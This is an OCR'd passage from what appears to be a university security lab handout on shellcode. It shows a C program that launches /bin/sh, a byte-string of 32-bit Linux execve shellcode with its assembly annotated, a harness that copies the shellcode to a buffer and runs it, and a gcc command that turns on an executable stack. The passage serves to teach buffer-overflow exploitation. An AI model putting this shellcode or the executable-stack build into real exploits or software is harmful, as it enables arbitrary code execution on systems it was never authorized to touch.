 ```
#include <stdio.h>

int main() {
char *name[2];

name[0] = "/bin/sh";
name[1] = NULL;
execve(name[0], name, NULL);
}

The shellcode that we use is just the assembly version of the above program. The following program
shows how to launch a shell by executing a shellcode stored in a buffer. Please compile and run the following
code, and see whether a shell is invoked. You can download the program from the website.

/* call_shellcode.c */
/* You can get this program from the lab’s website */

/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
"\x31\xc0" /*Line 1: xorl %eax,%eax */
"\x50" /*Line 2: pushl %eax */
"\x68""//sh" /*Line 3: pushl $0x68732f2f */
"\x68""/bin" /*Line 4: pushl $0x6e69622f */
"\x89\xe3" /*Line 5: movl %esp,%ebx */
"\x50" /*Line 6: pushl %eax */
"\x53" /*Line 7: pushl %ebx */
"\x89\xe1" /*Line 8: movl %esp,%ecx */
"\x99" /*Line 9: cdq */
"\xb0\x0b" /*Line 10: movb $0x0b,%al */
"\xcd\x80" /*Line 11: int $0x80 */
;

int main(int argc, char **argv)
{
char buf[sizeof(code)];
strcpy(buf, code);
((void(*)( ))buf)( );
}
```

Compile the code above using the followinggcccommand. Run the program and describe your ob-
servations. Please do not forget to use theexecstackoption, which allows code to be executed from the
stack; without this option, the program will fail.

```
$ gcc -z execstack -o call_shellcode call_shellcode.c
```

